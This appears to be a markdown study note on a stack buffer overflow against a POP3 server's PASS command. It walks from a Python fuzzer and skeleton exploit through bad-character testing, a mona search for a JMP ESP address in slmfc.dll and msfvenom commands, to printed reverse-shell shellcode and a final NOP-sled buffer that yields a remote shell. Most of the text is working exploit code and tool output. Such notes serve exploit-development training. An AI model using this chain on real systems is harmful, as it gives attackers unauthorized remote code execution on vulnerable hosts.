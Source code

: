 # BUFFER OVERFLOWS

Fuzzing
=======

Microsoft memory protections:  

DEP = Data Execution Prevention  
ASLR = Address Space Layout Randomization  

Python fuzzer example:
```
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20
buffer=["A"]
counter=100
while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.0.1',110))
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

Replicating / Skeleton Exploit
==============================

Example:
```
#!/usr/bin/python
import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer='A' * 2000

try:
print "\n Sending evil buffer..."
connect=s.connect(('192.168.0.1',110))
s.recv(1024)
s.send('USER test\r\n')
s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\n Done!"
s.close()
except:
print "Could not connect to pop3!"
```

Shellcode
=========

Typical reverse shell payload requires 350-400 bytes of space. If not enough, try increasing the buffer amd see if this results in larger override.  

Bad Characters
==============

Bad chars should not be used in buffer / return address /shellcode.  
Examples: null (`00`), carriage return (`0D`)  

Send all hex characters and see how the application behaves:
```
(badchars=)

\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff


buffer = "A"*2000 + "B"*4 + badchars
```
Run, follow ESP in dump/memory locaton. It should be 01 02 03 04 ... etc with no truncations or missing/filtered chars. So for example if 09 is the last correct character, 0A is the one we should avoid.  

2) Remove the badchar from the badchars, resend payload.  


Redirecting Execution Flow
==========================

We need to find a way to redirect the execution flow at the time of the crash to the shellcode located at the memory address that the ESP register is pointing to at crash time.
The intuitive way would be to replace the EIP value with the ESP one. This way the execution would be directed to the beginning of our shellcode which is pointed to by the ESP register. However that would not work because at each crash ESP value changes.

That's where dll's drives and modules come in which contain extra fuctions.  

Use Mona for this:  

`!mona modules`  

Choose instructions from a module that matches a few criteria:  

1) No mem protections (ASLR, DEP)  
2) Memory range of the dll itself does not contain bad characters  

In our case the only suitable module is slmfc.dll. It will load at the same address at each reboot.  
Now we need to find  JMP ESP or similar instruction and find out what address it is located at.  

Go to executable modules list ("e" after l in top menu). Locate slmfc.dll, double click on it.  
Right click, search for, Command -> jmp esp. Push esp \n retn? Not found.  

Click on m letter in the above menu. (modules list). The .text section of the module is actually marked as executable. Since no mem protetions, we can use any of these. How to search in whole smfc.dll? We need to find JMP ESP opcode equivalent.  

`ruby /usr/share/metasploit-framework/tools/nasm_shell.rb`  

OR  

```
root@kali:~# cd /usr/share/metasploit-framework/tools/
root@kali:/usr/share/metasploit-framework/tools# ./metasm_shell.rb
type "exit" or "quit" to quit
```

In our case the equivalent is FFE4:  
```
metasm > jmp esp
"\xff\xe4"
```
Use mona script in immunity dbg to search:  

`!mona find -s "\xff\xe4\" -m slmfc.dll`  

"Results" are displayed. We verify if this indeed contains the JPM ESP instruction. Select, click on the black arrow to dots button, enter expression to follow: 0x5f4a358f address (it can be seen on the left of the results).  

3) Replace the B's in the buffer with the address (but written in reverse due to little endian format):  

`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "C"*(3500-2606-4)`  

Locate the mem address in immunity and place a breakpoint (due to bug, might need to do it twice).  
Now the ESP should point to the beginning of Cs in the buffer.  


Generating Shellcode
====================

1) Generate Windows reverse shell with msfpayload:  

`msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=443 C`  

(C= provide shellcode output in C formatted layout we could use in python script)   

2) Notice bad characters in payload. Encode payload with msfencode:  

`msfencode -h`  

Regenerate in R(raw) format and pipe the output to encode and avoid bad chars:  

`msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=443 R |msfencode -b '\x00\x0a\x0d'`  

Or msfvenom:  
```
root@kali:~# msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 1 -f python LHOST=192.168.0.1 LPORT=443


No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)

buf =  ""
buf += "\xd9\xe1\xba\x27\x95\xd2\x95\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x13\x03\x77\x86\x30"
buf += "\x60\x8b\x40\x36\x8b\x73\x91\x57\x05\x96\xa0\x57\x71"
buf += "\xd3\x93\x67\xf1\xb1\x1f\x03\x57\x21\xab\x61\x70\x46"
buf += "\x1c\xcf\xa6\x69\x9d\x7c\x9a\xe8\x1d\x7f\xcf\xca\x1c"
buf += "\xb0\x02\x0b\x58\xad\xef\x59\x31\xb9\x42\x4d\x36\xf7"
buf += "\x5e\xe6\x04\x19\xe7\x1b\xdc\x18\xc6\x8a\x56\x43\xc8"
buf += "\x2d\xba\xff\x41\x35\xdf\x3a\x1b\xce\x2b\xb0\x9a\x06"
buf += "\x62\x39\x30\x67\x4a\xc8\x48\xa0\x6d\x33\x3f\xd8\x8d"
buf += "\xce\x38\x1f\xef\x14\xcc\xbb\x57\xde\x76\x67\x69\x33"
buf += "\xe0\xec\x65\xf8\x66\xaa\x69\xff\xab\xc1\x96\x74\x4a"
buf += "\x05\x1f\xce\x69\x81\x7b\x94\x10\x90\x21\x7b\x2c\xc2"
buf += "\x89\x24\x88\x89\x24\x30\xa1\xd0\x20\xf5\x88\xea\xb0"
buf += "\x91\x9b\x99\x82\x3e\x30\x35\xaf\xb7\x9e\xc2\xd0\xed"
buf += "\x67\x5c\x2f\x0e\x98\x75\xf4\x5a\xc8\xed\xdd\xe2\x83"
buf += "\xed\xe2\x36\x03\xbd\x4c\xe9\xe4\x6d\x2d\x59\x8d\x67"
buf += "\xa2\x86\xad\x88\x68\xaf\x44\x73\xfb\x10\x30\x6b\x87"
buf += "\xf8\x43\x8b\x76\x42\xca\x6d\x12\xa4\x9b\x26\x8b\x5d"
buf += "\x86\xbc\x2a\xa1\x1c\xb9\x6d\x29\x93\x3e\x23\xda\xde"
buf += "\x2c\xd4\x2a\x95\x0e\x73\x34\x03\x26\x1f\xa7\xc8\xb6"
buf += "\x56\xd4\x46\xe1\x3f\x2a\x9f\x67\xd2\x15\x09\x95\x2f"
buf += "\xc3\x72\x1d\xf4\x30\x7c\x9c\x79\x0c\x5a\x8e\x47\x8d"
buf += "\xe6\xfa\x17\xd8\xb0\x54\xde\xb2\x72\x0e\x88\x69\xdd"
buf += "\xc6\x4d\x42\xde\x90\x51\x8f\xa8\x7c\xe3\x66\xed\x83"
buf += "\xcc\xee\xf9\xfc\x30\x8f\x06\xd7\xf0\xbf\x4c\x75\x50"
buf += "\x28\x09\xec\xe0\x35\xaa\xdb\x27\x40\x29\xe9\xd7\xb7"
buf += "\x31\x98\xd2\xfc\xf5\x71\xaf\x6d\x90\x75\x1c\x8d\xb1"
```

3) Repalce B's with shellcode, align so that the sum would be still 3500 bytes:  

`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + shellcode + "C"*(3500-2606-4-351)`  

4) We need to provide the shellcode decoder a bit of stack space and compensate:  
```
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90\"*16 + shellcode + "C"*(3500-2606-4-351-16)
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" *16 + buf + "C"*(3500-2606-4-351-16)
```
This should provide a reverse shell.  
